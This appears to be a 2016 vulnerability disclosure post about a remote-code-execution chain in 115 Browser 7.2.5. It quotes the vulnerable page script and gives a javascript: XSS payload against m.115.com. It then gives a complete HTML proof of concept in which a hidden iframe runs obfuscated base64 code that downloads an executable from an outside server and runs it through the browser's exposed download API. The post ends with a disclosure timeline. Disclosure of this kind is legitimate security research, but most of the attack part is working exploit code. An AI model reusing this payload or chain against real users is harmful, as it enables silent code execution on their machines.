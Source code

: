 ```yaml
---
layout: post
title: 115 Browser 7.2.5 RCE Vulnerability
---
```

#### DownProxy XSS

view-source: http://m.115.com/down_proxy.html

    function localParam(search, hash) {
    search = search || window.location.search;
    hash = hash || window.location.hash;
    var fn = function (str, reg) {
      if (str) {
        var data = {};
        str.replace(reg, function ($0, $1, $2, $3) {
          data[ $1 ] = $3;
        });
        return data;
      }
    }
    return {search: fn(search, new RegExp("([^?=&]+)(=([^&]*))?", "g")) || {},
      hash: fn(hash, new RegExp("([^#=&]+)(=([^&]*))?", "g")) || {}};
    }

    var isAndroid = navigator.userAgent.match(/android/ig),
            isIos = navigator.userAgent.match(/iphone|ipod/ig),
            isIpad = navigator.userAgent.match(/ipad/ig),
            isWeixin = (/MicroMessenger/ig).test(navigator.userAgent),
            params = localParam(),
            docid = params.search['docid'],
            isappinstalled = params.search['isappinstalled'] || params.search['appinstall'],
            openurl = (params.search['openurl'] ? params.search['openurl'] : false),
            gotourl = (params.search['goto'] ? decodeURIComponent(params.search['goto']) : false),
            gotokey = (params.search['key'] ? params.search['key'] : false),
            gotovalue = (params.search['val'] ? decodeURIComponent(params.search['val']) : false),
            gotodep = (params.search['tid'] ? decodeURIComponent(params.search['tid']) : false),
            iframe = document.getElementById('ifr'),
            iframe2 = document.getElementById('ifr2'),
            showurl = params.search['showurl'];
            openurl = openurl || 'oof.disk://';

    if(gotokey){
    openurl = 'oof.disk://' + gotokey;
    if(gotovalue){
      openurl += "/" + gotovalue;
    }
    if(gotodep){
      openurl +=  "/" + gotodep;
    } }

    window.onload = function () {
    if (!isWeixin) {
      if(isAndroid){
        if(showurl){
          window.location.href = decodeURIComponent(showurl);
          return;
        }
      }
      iframe.src = openurl;
      setTimeout(function () {
        if(gotourl){
          window.location.href = gotourl;
        }
        else{
          if ((isIos || isIpad) && !isAndroid) {
            window.location.href =
              "https://itunes.apple.com/us/app/115wang-pan/id647500047?mt=8";
            window.setTimeout(function(){window.location.href =
                'http://a.app.qq.com/o/simple.jsp?pkgname=com.ylmf.androidclient';}, 1000);
          } else if (isAndroid) {

其中 iframe.src -> openurl -> params.search 环节出现问题，导致可使用伪协议嵌入 iframe 造成 XSS 漏洞：
          
1. params = localParam(),
2. openurl = (params.search['openurl'] ? params.search['openurl'] : false),
3. openurl = openurl \|\| 'oof.disk://';
4. iframe.src = openurl;

Payload: http://m.115.com/down_proxy.html?openurl=javascript:alert(document.domain)

#### FINDAPI

for(i in downloadInterface){console.log(i)}

    VM227:2 getLiXianIngUrls
    VM227:2 getLiXianUnFinishedUrls
    VM227:2 deleteLiXianUnFinishedUrl
    VM227:2 switchToOfflineWin
    VM227:2 createBTTaskForWeb
    VM227:2 beginDownload
    VM227:2 cancelOfflineDownload
    VM227:2 createOfflineDown
    VM227:2 getOfflineErrorInfo
    VM227:2 deleteOfflineErrorInfo
    VM227:2 GetTaskList
    VM227:2 ContinueDownload
    VM227:2 PauseDownload
    VM227:2 RemoveDownload
    VM227:2 RunDownloadItem
    VM227:2 OpenFolderItem
    VM227:2 StartAllDownloads
    VM227:2 PauseAllDownloads
    VM227:2 ClearHasFinished
    VM227:2 ShowDefaultFolder
    VM227:2 EnableShutdown
    VM227:2 GetDownloadErrorList
    VM227:2 ShowNewDownloadTaskWindow
    VM227:2 OpenURL
    
测试可知使用 OpenURL(URL) 传入二进制文件网址时则会自动下载文件到浏览器设置的下载文件夹内，随后使用 RunDownloadItem 打开，通过查看 RunDownloadItem 的原型可以知道：

	function(id) {  native function NativeRunDownloadItem();  return NativeRunDownloadItem(id);}
	
需要传入任务 ID 才能够运行下载的项目，所以这里我们使用 ClearHasFinished() 移除掉已经下载文件的记录然后遍历小范围的数字传参即可。

#### POC

	<!DOCTYPE HTML>
	<html>
	<head>
	    <title>115 Browser version 7.2.5.15 RCE</title>
	    <meta charset="utf8" />
	</head>
	<body>
	<h1>115 Browser 7.* RCE Vulnerability</h1>
	<pre>
	Test...
	
	    Email: evi1m0.bat[at]gmail.com
	    Work : Windows 7 64-bit
	    WebKit : 537.36
	    Version: 7.2.5.15
	    Datetime: 2016-12-19
	</pre>
	<img style="margin-top: 10px;" width=490 src="https://ws1.sinaimg.cn/large/c334041bgw1fax1c9wjb0j21c810gwl2.jpg"/>
	// w=window.parent.downloadInterface;w.ClearHasFinished();w.OpenURL('http://server.n0tr00t.com/calc.exe');window.parent.setTimeout(function(){for(var i=0;i<300;i++){w.RunDownloadItem(i);}},5000);
	<iframe src="http://m.115.com/down_proxy.html?openurl=javascript:eval(window.parent.location.hash.substr(1))#eval(atob('dz13aW5kb3cucGFyZW50LmRvd25sb2FkSW50ZXJmYWNlO3cuQ2xlYXJIYXNGaW5pc2hlZCgpO3cuT3BlblVSTCgnaHR0cDovL3NlcnZlci5uMHRyMDB0LmNvbS9jYWxjLmV4ZScpO3dpbmRvdy5wYXJlbnQuc2V0VGltZW91dChmdW5jdGlvbigpe2Zvcih2YXIgaT0wO2k8MzAwO2krKyl7dy5SdW5Eb3dubG9hZEl0ZW0oaSk7fX0sNTAwMCk7'))" style="display:none"></iframe>
	</body>
	</html>
	
![https://ws1.sinaimg.cn/large/c334041bgw1fax1c9wjb0j21c810gwl2.jpg](https://ws1.sinaimg.cn/large/c334041bgw1fax1c9wjb0j21c810gwl2.jpg)

#### Discloure Timeline

- 2016/12/19 Report vuln detail to 115.
- 2016/12/24 M.115.com xss fix.
- 2016/12/25 The DownloadAPI update is expected to be released after the new year.
- 2016/12/26 Public, via @evi1m0.